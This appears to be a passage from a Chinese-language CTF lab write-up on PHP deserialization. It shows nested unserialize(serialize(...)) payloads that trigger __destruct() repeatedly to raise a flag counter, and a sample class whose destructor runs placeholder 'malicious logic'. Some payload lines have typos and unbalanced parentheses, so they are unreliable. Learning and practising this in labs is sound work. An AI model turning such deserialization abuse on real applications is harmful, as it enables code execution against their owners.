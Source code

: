 构造函数只会在类实例化的时候 —— 也就是使用 new 的方法手动创建对象的时候才会触发，而通过反序列化创建的对象不会触发这一方法，这也是为什么，在前面的内容，我将反序列化的对象创建过程称作为 “**还原**”。

析构函数会在对象被回收的时候触发 —— 手动回收和自动回收。

手动回收：就是代码中演示的 unset 方法用于释放对象。

自动回收：对象没有值引用指向，或者脚本结束完全释放，具体看题目中的演示结合该部分文字应该不难理解。

题目要求 全局变量 标识符flag的值大于5，根据 __destruct() 和 PHP GC 的特性，我们可以不断地去序列化和反序列化一个对象，然后不给该对象具体的引用以触发自动销毁机制。

> [!success] 操作方法

老规矩，先看源码，给出了一个例子，同时本题创建一次就计算+1一次

![Pasted image 20250406101840](https://github.com/user-attachments/assets/374e6fe3-0ef6-48d7-a46a-2df3ca472047)
![Pasted image 20250406101854](https://github.com/user-attachments/assets/9219f6a1-0d92-452f-9617-ded00d4fa86e)

payload构造，根据补充知识可知，我们只需要不停的序列化反序列化化4次，再加上创建实例的一次，就达到了五次计数
```
code=unserialize(serialize(new REFLAG()))    //2
code=unserialize(serialize(unserialize(serialize(new REFLAG()))))   //3
code=unserialize(serialize(unserialize(serialize(unserialize(serialize(new REFLAG()))))))     //4
code=unserialize(serialize(unserialize(serialize(unserialize(serialize(unserialize(serialize(new RELFLAG())))))))));
code=unserialize(serialize(unserialize(serialize(unserialize(serialize(unserialize(serialize(new RELFLAG()))))))));
```



> [!INFO] 知识补充：什么是没有具体的引用？
- 当对象**没有被任何变量、数组或属性引用**时，PHP 会将其标记为“垃圾”。
```
$obj = new MyClass(); // $obj 是对象的引用
$obj = null;         // 取消引用，对象变为“无引用状态”
```
此时对象 `MyClass` 的实例没有引用指向它，GC 会触发 `__destruct()`。

**如何利用这一点？**
- 如果不断反序列化对象，**但不保留它们的引用**，每次反序列化的对象都会因无引用而被销毁，从而触发 `__destruct()`。
```
class Exploit {
    public function __destruct() {
        global $flag;
        if ($flag > 5) { /* 执行恶意逻辑 */ }
    }
}
// 反复反序列化且不保留引用
unserialize($serializedData); // 反序列化后对象无引用，立即触发 __destruct__
```

 **为什么这样能触发 `__destruct()`？**
- PHP 的垃圾回收机制（GC）会周期性地清理无引用的对象（引用计数为 0）。
- 反序列化后，如果没有将对象赋值给变量（如 `$obj = unserialize(...)`），该对象会**立即失去引用**，从而被 GC 回收，触发 `__destruct()`。


### LEVEL 9:构造函数的漏洞
